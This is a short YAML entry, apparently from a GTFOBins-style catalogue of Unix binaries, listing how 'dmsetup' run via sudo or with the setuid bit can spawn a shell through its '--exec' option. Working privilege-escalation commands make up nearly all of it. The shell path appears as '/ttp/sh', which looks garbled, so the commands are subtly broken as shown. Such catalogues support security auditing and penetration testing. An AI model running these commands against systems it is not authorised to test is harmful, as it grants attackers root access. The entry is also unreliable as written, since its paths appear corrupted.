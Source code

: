 ```yaml
---
functions:
  sudo:
    - code: |
        sudo dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        sudo dmsetup ls --exec '/ttp/sh -s'
  suid:
    - code: |
        ./dmsetup create base <<EOF
        0 3534848 linear /dev/loop0 94208
        EOF
        ./dmsetup ls --exec '/ttp/sh -p -s'
---
```

